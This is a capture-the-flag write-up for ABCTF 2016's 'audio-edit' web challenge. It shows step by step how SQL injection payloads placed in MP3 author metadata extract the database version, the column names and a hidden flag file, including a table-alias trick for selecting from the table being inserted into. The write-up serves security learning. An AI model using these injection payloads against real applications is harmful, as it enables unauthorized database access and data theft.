 # ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers users to upload an mp3 and therewith do some modifications on e.g. pitch or grain size.
In order to save the uploaded file it's inserted into a database.
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.
The identifier is created as the sha1sum of the mp3 content.
When opening a mp3 that way, the edit-overview shows some modification modulators,
but also the 'Author' as well as the 'Title' of the particular mp3.

![edit.php](images/abctf-2016-audioedit-edit.png)

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadata isn't verified
and offers a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to do an SQL-injection we have to create a special author and title field.
I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following meta data:


    title  = "" (leer)
    author = a', (SELECT @@version))-- -b

Which creates the following statement

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginning and the 'b' in the end were necessary because the first and last character were
discarded...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:

    author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:

    author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
    with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:

    author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a

... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time... Thanks to Arxenix!:)

So we got around by using AS:

    author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF
    author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag
    author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3

Using this info we visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3

Setting the visualization to 'Sonogram' finally showed us the flag:

    ABCTF{m3t4_inj3cti00n}

![flag](images/abctf-2016-audioedit-flag.png)

## Other write-ups and resources

* (Russian) http://countersite.org/articles/web-vulnerability/105-audioedit-writeup.html

